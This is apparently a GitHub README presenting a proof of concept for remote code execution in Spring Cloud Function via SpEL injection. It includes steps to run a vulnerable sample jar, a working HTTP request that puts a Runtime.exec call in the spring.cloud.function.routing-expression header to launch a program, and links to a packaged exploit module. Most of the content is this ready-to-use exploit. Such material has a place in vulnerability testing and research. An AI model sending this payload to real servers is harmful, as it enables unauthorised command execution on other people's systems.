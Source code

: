 # spring-cloud-function SpEL RCE

## Vultarget

You can build it for youself. [here is the source of the Vuln App](./src)

Or you can use [the release which built by cckuailong(Yh,it's me)](https://github.com/cckuailong/spring-cloud-function-SpEL-RCE/releases/tag/untagged-e1c4060d01bbb4ddc6cf)

```
java -jar function-sample-pojo-3.2.1.RELEASE.jar
```

P.S. test with Java17

## Poc

```
POST /xxx HTTP/1.1
Host: test.com:8080
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator")
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

xxx
```

## Result

RCE！！

![demo](./img/demo.png)

Enjoy it!

I put the poc code in the repo:

https://github.com/cckuailong/pocsploit

https://github.com/cckuailong/pocsploit/blob/master/modules/vulnerabilities/springcloud/springcloud-function-spel-rce.py

![demo2](./img/demo2.png)

[Article](https://mp.weixin.qq.com/s/AVvyKjRz_XooIB0s1S8njA)

